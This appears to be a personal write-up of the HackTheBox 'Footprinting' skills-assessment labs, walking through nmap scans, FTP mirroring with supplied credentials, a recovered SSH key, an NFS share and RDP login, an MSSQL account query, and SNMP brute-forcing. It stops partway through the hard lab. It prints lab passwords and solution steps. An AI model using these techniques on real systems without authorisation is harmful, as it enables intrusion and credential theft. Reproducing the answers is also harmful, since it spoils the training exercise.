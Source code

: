 ```yaml
---
description: Skills Assessment
---
```


# Footprinting Labs

## Footprinting Lab - Easy

### What is given

* company name: **`Inlanefreight Ltd`**
* given server: **`DNS`**
* found credentials: "**`ceil:qwer1234`**"
* admins have stored a "**`flag.txt`**" file on the server, we should obtain its content

### Questions

#### 1. Enumerate the server carefully and find the flag.txt file. Submit the contents of this file as the answer.

**`sudo nmap -sVC 10.129.72.126`**

* 21 ftp - ProFTPD Server (ftp.int.inlanefreight.htb)
* 22 ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
* 53 domain - ISC BIND 9.16.1, dns-nsid: bind.version: 9.16.1-Ubuntu
* 2121 ftp - ProFTPD Server (Ceil's FTP)
* CONCLUSION
  * FTP: 21 is a real FTP server, 2121 is just a proxy to the real one&#x20;
  * SSH: We dont have keys for login, it might be in the FTP server...

dig soa \<IP>

* AUTHORITY SECTION: . 5 IN SOA **`a.root-servers.net`. `nstld.verisign-grs.com`**. 2023091101 1800 900 604800 86400

ssh ceil@10.129.72.126

* "`ceil@10.129.72.126: Permission denied (publickey).`"

ftp 10.129.72.126

* logged in, nothing to be found

**`wget -m --no-passive ftp://ceil:qwer1234@10.129.72.126:2121`**

* downloaded all the FTP files to local machine
* cd 10.129.72.126:2121 -> ls -la (**`.bash_history`**) -> cat **`.bash_history`**
  * `ls -al mkdir ssh cd ssh/ echo "test" > id_rsa id ssh-keygen -t rsa -b 4096 cd .. rm -rf ssh/ ls -al cd .ssh/ cat id_rsa ls a-l ls -al cat id_rsa.pub >> authorized_keys cd .. cd /home cd ceil/ ls -l ls -al mkdir flag cd flag/ touch flag.txt vim flag.txt cat flag.txt ls -al mv flag/flag.txt .`
* cd 10.129.72.126:2121 -> ls -la (**`.ssh`**) -> cd .ssh -> ls -la (**`id_rsa`**)
* **`chmod 600 id_rsa`**
* **`sftp -i id_rsa ceil@10.129.72.126`**
* **`cd ..`**
* **`ls -la`**
* **`cd flag`**
* **`ls`**
* **`get flag.txt`**
* LOCAL machine: **`cat flag.txt`**



## Footprinting Lab - Medium

### What is given

* everyone on the internal network has access to the server
* user named **`HTB`**
* we need to obtain credentials of this user as proof

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.**

**`sudo nmap -sVC 10.129.169.252`**

* 111 rpcbind - version 2-4
* 135 msrpc
* 139 netbios-ssn
* 445 microsoft-ds?
* 2049 mountd 1-3
* 3389 ms-wbt-server - info: WINMEDIUM, Product\_Version: 10.0.17763
* \+ smb host scripts (smb2-security-mode: 311)
* Conclusion:
  * looks like NFS because of rpc

`rpcclient -U "" 10.129.45.189`

* Cannot connect to server. Error was NT\_STATUS\_LOGON\_FAILURE

**`showmount -e 10.129.169.252`**

* ![](<.gitbook/assets/image (12) (1) (1) (1) (1).png>)

`sudo nmap 10.129.169.252 --script nfs* -p111,2049 -sV`

`mkdir target-NFS`

**`sudo mount -t nfs 10.129.169.252:/TechSupport ./target-NFS/ -o nolock`**

cd target-NFS

ls -la => many tickets, but only one with some data

**`cat ticket4238791283782.txt`**

* domain="10.129.2.59:9500"&#x20;
* path=/login
* from="alex.g@web.dev.inlanefreight.htb"
* user="**alex**"
* password="**lol123!mD**"
* port = 25 (SMTP)
* host=smtp.web.dev.inlanefreight.htb

**`remmina`**

* RDP = 10.129.169.252
* username = alex
* password = lol123!mD
* domain = 10.129.2.59:9500

We successfully connected using RDp to alex Windows machine, it contains MSQL Server Management Studio 18, but we dont have access to it...lets find the PW for su user to get access into DB with PW

![](<.gitbook/assets/image (13) (1) (1) (1) (1).png>)![](<.gitbook/assets/image (14) (1) (1) (1) (1).png>)

Searching the alex Windows machine -> c:/users/alex/devshare/important.txt => **`sa:87N1ns@slls83`**

* login doesnt work
* RUN MSSQLServer as ADMIN with found PW (87N1...)
  * we are in the DB
  * New Query -> **`select * from accounts.dbo.devsacc where name = ‘htb’;`**
  * ![](<.gitbook/assets/image (15).png>)



## Footprinting Lab - Hard

### What is given

* MX and management server for the internal network
* server has the function of a backup server for the internal accounts in domain
* user named **`HTB`**

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit HTB's password as the answer.**

**`sudo nmap -sVC 10.129.251.207`**

* 22 SSH
* 110 POP3 - Dovecot pop3d
* 143 IMAP - Dovecot imapd (Ubuntu)
* 993 IMAPS?
* 995 POP3S?
* CONCLUSION -> looks like we wanna use what we learned from IMAP/POP3 module...

**`openssl s_client -connect 10.129.251.207:pop3s`**

**`onesixtyone -c /usr/share/SecLists/Discovery/SNMP/snmp.txt 10.129.251.207`**

\=> ![](<.gitbook/assets/image (14) (1) (1) (1).png>)

\=> we obtained the hostname \[XXX], lets dive deeper

**`braa XXX@10.129.251.207:.1.3.6.*`**

\=> ![](<.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)![](<.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

\=> we obtained the credentials of a user "tom" - lets try these

**`curl -k 'imaps://10.129.251.207' –user XXX:XXX -v`**

**`1 SELECT INBOX`**



